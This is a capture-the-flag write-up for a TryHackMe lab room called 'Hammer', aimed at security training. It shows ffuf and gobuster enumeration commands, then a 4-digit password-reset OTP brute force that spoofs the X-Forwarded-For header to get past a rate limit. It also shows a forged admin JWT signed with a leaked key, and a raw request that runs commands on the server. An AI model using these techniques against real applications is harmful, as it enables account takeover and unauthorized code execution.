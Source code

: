 # Room: Hammer

## General Info
- **Room link:** [Hammer](https://tryhackme.com/room/hammer


## Description

With the Hammer in hand, can you bypass the authentication mechanisms and get RCE on the system?

## Provided Files / Links
- [x] Target Machine IP (10.10.249.72)

## Enumeration / Recon

- Port Enumeration:
` nmap -sV 10.10.249.72 -p- -T5`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

- Directory Enumeration

I enumerate on the port 1337:

`gobuster dir -u http://10.10.249.72:1337 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt`

```
/javascript           (Status: 301) [Size: 324] [--> http://10.10.249.72:1337/javascript/]
/vendor               (Status: 301) [Size: 320] [--> http://10.10.249.72:1337/vendor/]
/phpmyadmin           (Status: 301) [Size: 324] [--> http://10.10.249.72:1337/phpmyadmin/]
/server-status        (Status: 403) [Size: 279]
```


`gobuster dir -u http://10.10.249.72:1337 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-files.txt`

```
/index.php            (Status: 200) [Size: 1326]
/config.php           (Status: 200) [Size: 0]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/.htaccess            (Status: 403) [Size: 279]
/.                    (Status: 200) [Size: 1326]
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
/dashboard.php        (Status: 302) [Size: 0] [--> logout.php]
/.htpasswd            (Status: 403) [Size: 279]
/.htm                 (Status: 403) [Size: 279]
/.htpasswds           (Status: 403) [Size: 279]
/reset_password.php   (Status: 200) [Size: 1664]
/.htgroup             (Status: 403) [Size: 279]
/wp-forum.phps        (Status: 403) [Size: 279]
/.htaccess.bak        (Status: 403) [Size: 279]
/.htuser              (Status: 403) [Size: 279]
/.htc                 (Status: 403) [Size: 279]
/.ht                  (Status: 403) [Size: 279]
```

When visiting the index.php page (login form), I noticed a commentaire in the html:
`<!-- Dev Note: Directory naming convention must be hmr_DIRECTORY_NAME -->`.

I then used ffuf to enumerate the directories with the given pattern.

`ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 'http://10.10.249.72:1337/hmr_FUZZ'`

```
css                     [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 19ms]
js                      [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 19ms]
logs                    [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 20ms]
images                  [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 4349ms]
```

None of the directories/files that were enumerated with gobuster gave relevant information.

I then had a look at the /hmr_js, /hmr_css, /hmr_images and /hmr_logs, and found these relevant logs in /hmr_logs:

```
[Mon Aug 19 12:02:34.876543 2024] [authz_core:error] [pid 12347:tid 139999999999997] [client 192.168.1.12:37210] AH01631: user tester@hammer.thm: authentication failure for "/restricted-area": Password Mismatch
[Mon Aug 19 12:04:56.654321 2024] [core:error] [pid 12349:tid 139999999999995] [client 192.168.1.22:38100] AH00037: Symbolic link not allowed or link target not accessible: /var/www/html/protected
[Mon Aug 19 12:05:07.543210 2024] [authz_core:error] [pid 12350:tid 139999999999994] [client 192.168.1.25:46234] AH01627: client denied by server configuration: /home/hammerthm/test.php
[Mon Aug 19 12:06:18.432109 2024] [authz_core:error] [pid 12351:tid 139999999999993] [client 192.168.1.30:40232] AH01617: user tester@hammer.thm: authentication failure for "/admin-login": Invalid email address
[Mon Aug 19 12:09:51.109876 2024] [core:error] [pid 12354:tid 139999999999990] [client 192.168.1.50:45998] AH00037: Symbolic link not allowed or link target not accessible: /var/www/html/locked-down
```

Notes:
-tester@hammer.thm seems to be a valid email
-hammerthm is a user in the target machine

With the newly found email tester@hammer.thm, I then tried to brute-force the OTP in the http://10.10.249.72:1337/reset_password.php page with Burp Suite but there was a rate limit in place.

Once the request for the OTP is made, there is a counter of 180s that will redirect you to /logout.php if you don't have the right OTP.

Since there is a rate limit on this endpoint, I will be be fuzzing the "X-Forwarded-For" header to get a rate limit bypass.

First, I create a txt file containing all the possible pin numers (between 0000 and 9999):

`seq -w 0000 9999 > pins.txt `

Then I use the following ffuf command to launch the attack (after grabbing the right PHPSESSID cookie):

```
ffuf -w pins.txt -u "http://hammer.thm:1337/reset_password.php" -X “POST” -d "recovery_code=FUZZ&s=60" -H "Cookie: PHPSESSID=CookieID" -H "X-Forwarded-For: FUZZ" -H “Content-Type: application/x-www-form-urlencoded" -fr "Invalid" -s
```

(I use the flag -fr "Invalid" to filter out the responses containing the word "Invalid").

I then get the right OTP password: 8541.

I change the password for the user tester@hammer.thm and I'm now able to log in. I find the first flag: **THM{AuthBypass3D}**.

### Logged in access

Once logged in, I have a look at the dashboard.php request in the network tab of the browser and find a JWT token:

`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzQ3NTg4NDQyLCJleHAiOjE3NDc1OTIwNDIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJ1c2VyIn19.Rg_nED2D4PW7maxBWCh7BrlDs7nVR6FKicY6BV6nsFk`

Using jwt.io, I find that this jwt token needs a 256 bit secret.

Using the "command" field in the web page, I type `ls` and find that there is a `188ade1.key` file available. I navigate to http://10.10.249.72:1337/188ade1.key to download the resource.

`cat 188ade1.key` => `56058354efb3daa97ebab00fabd7a7d7`

 I change the role of the user in the JWT token ("role": "admin" instead of "role": "user") and I use this key to validate the jwt signature.

 The new JWT token with the admin permission is the following:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L2h0bWwvMTg4YWRlMS5rZXkifQ.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzQ3NTg4NDQyLCJleHAiOjE3NDc1OTIwNDIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJhZG1pbiJ9fQ.9uM0nkCPMrQA3sHY8Htrl5ALwn7RKYnyLmG45gjPEVM
```

The only thing left to do is now to make the POST request /execute_command.php with the JWT token with admin privileges.

I use Burp Suite with the following request:

```
POST /execute_command.php HTTP/1.1
Host: 10.10.249.72:1337
Content-Length: 39
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L2h0bWwvMTg4YWRlMS5rZXkifQ.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzQ3NTg4NDQyLCJleHAiOjE3NDc1OTIwNDIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJhZG1pbiJ9fQ.9uM0nkCPMrQA3sHY8Htrl5ALwn7RKYnyLmG45gjPEVM
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: */*
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Origin: http://10.10.249.72:1337
Referer: http://10.10.249.72:1337/dashboard.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=1h2f4encdgd906cqvbjtq17ehp; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzQ3NTg4NDQyLCJleHAiOjE3NDc1OTIwNDIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJhZG1pbiJ9fQ.md9lPE3rTrqVvsJmK1lB4ixAPCTmQyBuhP-Kd6LlAEI; persistentSession=no
Connection: keep-alive

{"command":"cat /home/ubuntu/flag.txt"}
```

And I get the flag **THM{RUNANYCOMMAND1337}** in the response:

```
{"output":"THM{RUNANYCOMMAND1337}\n"}
```
